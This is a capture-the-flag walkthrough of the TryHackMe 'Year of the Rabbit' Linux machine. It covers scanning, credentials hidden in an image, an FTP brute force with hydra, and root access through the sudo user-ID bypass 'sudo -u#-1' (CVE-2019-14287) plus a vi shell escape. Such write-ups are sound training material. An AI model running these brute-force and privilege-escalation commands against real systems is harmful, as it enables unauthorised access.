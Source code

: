 # Year of the Rabbit - Linux
---

**IP may change all over the document as this box took several tries**

## Enumeration

### Nmap 
 
 + `nmap -sV 10.10.236.151 -oN nmap-intial`

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

+ NSE: `nmap -sC -oN nmap-nse-scan -v 10.10.236.151`

```bash
PORT     STATE    SERVICE
21/tcp   open     ftp
22/tcp   open     ssh
| ssh-hostkey: 
|   1024 a0:8b:6b:78:09:39:03:32:ea:52:4c:20:3e:82:ad:60 (DSA)
|   2048 df:25:d0:47:1f:37:d9:18:81:87:38:76:30:92:65:1f (RSA)
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
80/tcp   open     http
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: Apache2 Debian Default Page: It works
3351/tcp filtered btrieve
8093/tcp filtered unknown
9001/tcp filtered tor-orport
9415/tcp filtered unknown
```

### Gobuster: `gobuster dir -u http://10.10.236.151/ -w common.txt -o gobuster-scan`

```bash
/.htpasswd            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/assets               (Status: 301) [Size: 315] [--> http://10.10.236.151/assets/]
/index.html           (Status: 200) [Size: 7853]                                  
/server-status        (Status: 403) [Size: 278]                                   
```

### Manual enumeration

So inside */assets/* we have two files listed. Checking the .css file first, we get the following message

```
Nice to see someone checking the stylesheets.
Take a look at the page: /sup3r_s3cr3t_fl4g.php
```

Now visiting *sup3r_s3cr3t_fl4g.php* we are greeted by an alert javascript message. Taking a look at the source code of the current page we can see: 

+ Redirects to  https://www.youtube.com/watch?v=dQw4w9WgXcQ?autoplay=1 if javascript is allowed on page.

+ Media content played from */assets* if javascript not allowed.

At any case it wants us to have a look at the video. Moreover tryhackme page had the following in description `(Please ensure your volume is turned up!)`.

*(NOPE ITS A RABBIT HOLE. I JUST DUG IT DEEPER FOR NO REASON)* 

*After spending a lot of time to go through each comment in the youtube on the video, checking the lyrics of the video, even listening the local video on the server (by just playing it from assets/). NOTHING.*

Then just opening `burp` and checking if there is anything that I am missing.. and there it was the intermediate php script that ran every time I visited *sup3r_s3cr3t_fl4g.php (Requires enabling of intercept for request option in proxy tab)*.

```bash
GET /intermediary.php?hidden_directory=/WExYY2Cv-qU HTTP/1.1
Host: 10.10.236.151
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:93.0) Gecko/20100101 Firefox/93.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

Got some hidden directory */WExYY2Cv-qU*. Once inside the directory just download the file present there.

### Checking the image

Executing `exiftool` reveals something:

```bash
File Permissions                : rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 512
Image Height                    : 512
Bit Depth                       : 8
Color Type                      : RGB
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
SRGB Rendering                  : Perceptual
Warning                         : [minor] Trailer data after PNG IEND chunk
Image Size                      : 512x512
Megapixels                      : 0.262
```

**Trailer data after PNG IEND chunk**.

In order to check the trailer data the best way I know is opening the image in `vim`. The same can be done by converting the image to a hexdump using `xxd image_file > hexdump`. It can be found at approx address *00073af0*.

Using `tail` to extract message: 

```bash
tail -n84 image_file > hidden_msg
```

The message gives a username and bunch of passwords. `Hydra` time.

### FTP 

Let's get the password listed in a seperate file

```bash
tail -n82 hidden_msg > password_list
```

Using `hydra` for brute forcing the password.

```bash
hydra -l ftpuser -P password_list ftp://10.10.236.151
```

Got the password! Just use the password obtained and login using ftp and get the file there.

Apparently the file seems like a code of sorts. After searching the internet finally came across something called *brainfuck*. There is an [online decoder](https://www.dcode.fr/brainfuck-language) for it. Decoding gives a username and a password. `SSH` time.

## User.txt

Using the creds login in machine and we are greeted by the following message:

```bash
1 new message
Message from Root to Gwendoline:

"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"

END MESSAGE
```

There is not a user.txt file in the current directory so maybe other user has it. Lets search that *s3cr3t hiding place*. `Find` time.

```bash
$find / -name s3cr3t 2>/dev/null 
/usr/games/s3cr3t
```
Inside we have a hidden file which was suppossed to be for the other user only.... but its world readable. 

Contents of *.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!*

```bash
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
```

Got the password for other account. Using `su` for switching the account. There it is *user.txt*. Just `cat` the file to get the flag.

## Root.txt

Executing `sudo -l` we get the following

```bash
sudo -l
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

Checking [gftobins](https://gtfobins.github.io/gtfobins/vi/) for an appropriate method

```bash
vi
:set shell=/bin/sh
:shell
```

Hmm executing `sudo -u root /usr/bin/vi /home/gwendoline/user.txt` results in

```bash
Sorry, user gwendoline is not allowed to execute '/usr/bin/vi /home/gwendoline/user.txt' as root on year-of-the-rabbit.
```

But it says I can execute when checked with `sudo -l`. So after a lot of trial and error I finally gave up and started reading on *sudoers* file.

So according to `sudo -l` I can execute `/usr/bin/vi /home/gwendoline/user.txt` as any user except *root*. So the thing I want most is out of my reach....awesome!

*I later found this configuration is actually related to a CVE (ref:https://www.exploit-db.com/exploits/47502)*

So just following the steps in comments of the [exploit](https://www.exploit-db.com/exploits/47502) this is what we get:

```bash
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

This opens the file as root. Now just doing the following the [gftobins](https://gtfobins.github.io/gtfobins/vi/) we get our shell.

```bash
:set shell=/bin/sh
:shell
```

Just `cat` the */root/root.txt* and we have our root flag.
